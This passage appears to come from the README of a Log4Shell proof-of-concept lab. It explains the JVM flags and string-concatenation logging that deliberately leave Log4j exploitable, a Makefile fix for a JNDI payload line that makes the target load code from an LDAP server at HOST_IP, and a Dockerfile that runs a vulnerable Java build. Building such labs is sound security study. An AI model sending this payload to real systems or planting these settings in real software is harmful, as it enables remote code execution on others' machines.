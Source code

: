 2. **Required JVM Flags**:
   - `-Dcom.sun.jndi.ldap.object.trustURLCodebase=true` - Enables remote class loading (disabled by default in newer builds)
   - `-Dlog4j2.formatMsgNoLookups=false` - Ensures JNDI lookups are processed (just to be explicit)

3. **Makefile Variable Escaping** (Fixed):
   - Original: `echo '${jndi:ldap://$(HOST_IP):1389/Exploit}'` sent empty string
   - Make was expanding `${jndi:...}` as a Make variable (undefined = empty)
   - Fixed: `echo '\$${jndi:ldap://$(HOST_IP):1389/Exploit}'` properly escapes the `$`
   - Now `$(HOST_IP)` expands correctly while `${jndi:...}` is preserved

4. **Logging Pattern**:
   - Must use string concatenation: `logger.error("Request: " + input)`
   - Parameterized logging is SAFE: `logger.error("Request: {}", input)`
   - The vulnerability is in Log4j processing the message content

5. **Multi-stage Build**:
   - Build with newer Maven (Java 8u322) for modern tooling
   - Run with vulnerable Java 8u181 for actual exploitation
   - This matches real-world scenarios where build/runtime differ

### Container Configuration

**Dockerfile** uses a two-stage build:
```dockerfile
# Stage 1: Build with Maven 3.8.4 (Java 8u322)
FROM maven:3.8.4-jdk-8 AS builder
COPY . /usr/src/poc
WORKDIR /usr/src/poc
RUN mvn clean && mvn package

# Stage 2: Run with vulnerable Java 8u181
FROM openjdk:8u181-jdk
COPY --from=builder /usr/src/poc/target/log4j-rce-1.0-SNAPSHOT-jar-with-dependencies.jar /app/app.jar
WORKDIR /app

# Explicit flags required due to Debian security backports
CMD ["java",
     "-Dcom.sun.jndi.ldap.object.trustURLCodebase=true",
     "-Dlog4j2.formatMsgNoLookups=false",
     "-cp", "/app/app.jar",
     "VulnerableApp"]
```

### Podman vs Docker

This demo uses **Podman** instead of Docker:

| Feature | Docker | Podman |
|---------|--------|--------|
| Daemon | Required | Daemonless |
| Root | Requires root by default | Rootless by default |
| Command | `docker` | `podman` (drop-in replacement) |
| Security | More attack surface | More secure |
